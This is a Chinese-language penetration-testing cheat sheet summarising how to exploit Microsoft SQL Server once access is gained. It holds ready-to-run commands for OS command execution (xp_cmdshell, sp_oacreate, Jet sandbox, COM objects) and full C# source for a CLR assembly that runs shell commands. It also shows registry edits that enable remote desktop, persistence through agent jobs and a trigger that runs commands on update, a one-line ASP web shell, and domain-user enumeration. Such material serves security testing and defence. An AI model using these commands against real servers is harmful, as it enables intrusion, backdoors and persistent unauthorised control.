

# MSSQL利用总结

## 命令执行

1. xp_cmdshell

   开启xp_cmdshell

   ```
   sp_configure 'show advanced options',1
   reconfigure
   go
   sp_configure 'xp_cmdshell',1
   reconfigure
   go
   ```

   

   执行

   `exec xp_cmdshell "whoami"`  //在mssql中，转义符为"""转义字符"""

   恢复被删除的xp_cmdshell

   `EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'`提示找不到xplog70.dll则需要自己上传。

2. sp_oacreate

   打开组件

   ```
   EXEC sp_configure 'show advanced options', 1;   
   RECONFIGURE WITH OVERRIDE;   
   EXEC sp_configure 'Ole Automation Procedures', 1;   
   RECONFIGURE WITH OVERRIDE;   
   EXEC sp_configure 'show advanced options', 0;
   ```

   执行

   ```
   declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >d:\\temp\\1.txt'
   ```

   此方法无回显，可把命令执行结果写到web路径下或者配合dns侧信道，或者写到文件里，在通过sql语句从文件导入内容到表，再查询出来

3. 沙盒执行

   需要当前mssql用户有写注册表权限

   开启

   ```
   exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
   ```

   ```
   exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1
   ```

   执行

   ```
   select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
   ```

   在默认安装mssql 2012上报错  "无法创建链接服务器“(null)”的 OLE DB 访问接口“microsoft.jet.oledb.4.0”的实例。"  暂未找到解决办法

4. CLR执行

   Common Language Runtime(CLR)程序集定义为可以导入SQL Server的.NET DLL（或DLL组）。导入后，DLL方法可以链接到存储过程并通过TSQL执行。创建和导入自定义CLR程序集的能力是开发人员扩展SQL Server本机功能的好方法，但自然也为攻击者创造了机会。以C#代码为例，将下面代码用CSC编译为dll

   ```
   using System;
   using System.Data;
   using System.Data.SqlClient;
   using System.Data.SqlTypes;
   using Microsoft.SqlServer.Server;
   using System.IO;
   using System.Diagnostics;
   using System.Text;
   
   public partial class StoredProcedures
   {
       [Microsoft.SqlServer.Server.SqlProcedure]
       public static void cmd_exec (SqlString execCommand)
       {
           Process proc = new Process();
           proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
           proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
           proc.StartInfo.UseShellExecute = false;
           proc.StartInfo.RedirectStandardOutput = true;
           proc.Start();
   
           // Create the record and specify the metadata for the columns.
           SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
           
           // Mark the beginning of the result set.
           SqlContext.Pipe.SendResultsStart(record);
   
           // Set values for each column in the row
           record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
   
           // Send the row back to the client.
           SqlContext.Pipe.SendResultsRow(record);
           
           // Mark the end of the result set.
           SqlContext.Pipe.SendResultsEnd();
           
           proc.WaitForExit();
           proc.Close();
       }
   };
   ```

   编译

   ```
   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs //主意.net版本
   ```

   得到的DLL上传到目标，设置dll文件权限，否则mssql可能因为文件权限问题导致读取dll失败

   开启CLR

   ```
   sp_configure 'show advanced options',1
   RECONFIGURE
   GO
   -- Enable clr on the server
   sp_configure 'clr enabled',1
   RECONFIGURE
   GO
   
   ```

   遇到权限问题，需要设置数据库拥有者为sa，这个方法不能使用master数据库来执行查询语句

   ```
   alter database [数据库名] set TRUSTWORTHY on
   EXEC sp_changedbowner 'sa'
   ```

   接着执行

   ```
   -- Import the assembly
   CREATE ASSEMBLY my_assembly
   FROM 'c:\temp\cmd_exec.dll'
   WITH PERMISSION_SET = UNSAFE;
   Go
   -- Link the assembly to a stored procedure
   CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
   GO
   ```

   接下来就可以执行命令了

   

   这个方法还可以通过16进制文件流的方式导入DLL，这样可以不用文件落地,参考

   []: http://sekirkity.com/requested-command-execution-with-sqli-via-seeclrly/

   

5. com对象

   开启

   ```
   EXEC sp_configure 'Ole Automation Procedures',1
   ```

   执行

   ```
   declare @dbapp int,@exec int,@text int,@str varchar(8000);
   exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@dbapp output;
    
   --exec sp_oamethod @dpapp,'run',null,'calc.exe';
    
   exec sp_oamethod @dbapp,'exec',@exec output,'C:\\windows\\system32\\cmd.exe /c whoami';
   exec sp_oamethod @exec, 'StdOut', @text out;
   exec sp_oamethod @text, 'readall', @str out
   select @str
   ```

   

## 注册表

1. 读注册表

   ```
   EXEC xp_regread 'HKEY_CURRENT_USER','Control Panel\International','sCountry'
   ```

   

2. 写注册表

   ```
   master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0; #开启远程桌面
   ```

3. 删除操作

   ```
   exec master.xp_regdeletevalue 'HKEY_LOCAL_MACHINE','
   SOFTWARE/Microsoft/Windows/CurrentVersion','TestValueName' //删除值
   ```

   ```
   exec
   master.xp_regdeletekey 'HKEY_LOCAL_MACHINE','
   SOFTWARE/Microsoft/Windows/CurrentVersion/Testkey'  //删除键
   ```

4. 添加值

   ```
   EXECUTE master..xp_regaddmultistring
   @ rootkey ='HKEY_LOCAL_MACHINE'，
   @ key ='SOFTWARETest'，
   @ value_name ='TestValue'，
   @ value ='Test'
   ```

5. 枚举可用的注册表键

   ```
   EXEC master..xp_regenumkeys 'HKEY_CURRENT_USER','Control Panel\International'
   ```

   

   

   

## 持久化

1. 定时任务

   启用sql server代理，右键-新建-作业

   

   步骤-新建

   

   配置执行的语句，可以自定义

   

   然后在“计划”选项里配置执行时间

   

   此外，可以使用十六进制CLR新建一个存储过程然后用计划作业执行存储过程，这样更加隐蔽。

   

2. 触发器

   触发器用于在执行指定语句动作之后执行sql语句，如update,可配合注入使用

   ```
   SET ANSI_NULLS ON
   GO
   SET QUOTED_IDENTIFIER ON
   GO                             
   CREATE TRIGGER [test222]
      ON [test]
      AFTER UPDATE           /*建立一个作用于表test的、
                               类型为After update的、名为test222的触发器*/
   AS 
   BEGIN
              EXECUTE MASTER.DBO.XP_CMDSHELL 'cmd.exe /c calc.exe'
   END
   GO
   ```

   在对表进行update操作之后，就会执行xp_cmdshell

## 文件操作

1. 判断文件是否存在

   ```
   exec xp_fileexist "C:\\users\\public\\test.txt"
   ```

   返回0表示文件不存在，1表示存在。在执行无回显命令时，把执行结果重定向到一个文件，再用xp_fileexist判断该文件是否存在，就可知道命令是否执行成功。

2. 列目录

   ```
   exec xp_subdirs "C:\Users\Administrator\",2,1
   ```

   第一个参数设定要查看的文件夹。 第二个参数限制了这个存储过程将会进行的递归级数。默认是零或所有级别。第三个参数告诉存储过程包括文件。默认是零或只对文件夹，数值 1 代表包括结果集的文件。

   

   

3. 写文件

   ```
   exec sp_makewebtask 'c:\www\testwr.asp','select''<%execute(request("SB"))%>'' '
   ```

   需要开启Web Assistant Procedures

   ```
   exec sp_configure 'Web Assistant Procedures', 1; RECONFIGURE
   ```

   在sql server 2012上开启失败。

4. 创建目录

   ```
   exec xp_create_subdir 'D:\test'
   ```

5. 压缩文件

   ```
   exec xp_makecab 'c:test.cab', 'mszip', 1, 'c:test.txt' , 'c:test1.txt'
   ```

   它允许你指定一列你想压缩的文件还有你想放进去的 cab 文件。它甚至允许你选择默认压缩， MSZIP 压缩 ( 类似于 .zip文件格式 ) 或不压缩。第一个参数给出到 cab 文件的路径，这是你想创建和添加文件的地方。第二个参数是压缩级别。如果你想使用详细的日志记录就使用第三个参数。第四个参数后跟着你想压缩的文件的名称。可以在扩展存储过程里传 多个要压缩的文件名称。

   

## 信息获取

1. 获取机器名

   ```
   exec xp_getnetname
   ```

   

2. 获取系统信息

   ```
   exec xp_msver
   ```

   

3. 获取驱动器信息

   ```
   exec xp_fixeddrives
   ```

   

4. 获取域名

   ```
   SELECT DEFAULT_DOMAIN() as mydomain;
   ```

   

5. 遍历域用户

   先获取RID

   ```
   SELECT SUSER_SID('CATE4CAFE\Domain Admins')
   ```

   

   利用RID前48位即0x010500000000000515000000F80F57B63AF32D50A0916B7B构造SID即可遍历域用户。我们知道，域用户的SID是从500开始，所以把500转换成16进制，为01F4，在mssql里需要翻转为F401，然后用0000补足得到0x010500000000000515000000F80F57B63AF32D50A0916B7BF4010000，在mssql里查询

   

   采用循环SQL语句遍历即可遍历出所有域用户。或者使用https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Get-SqlServer-Enum-WinAccounts.psm1 遍历

   

   msf有个模块可通过注入点枚举域用户

   

   


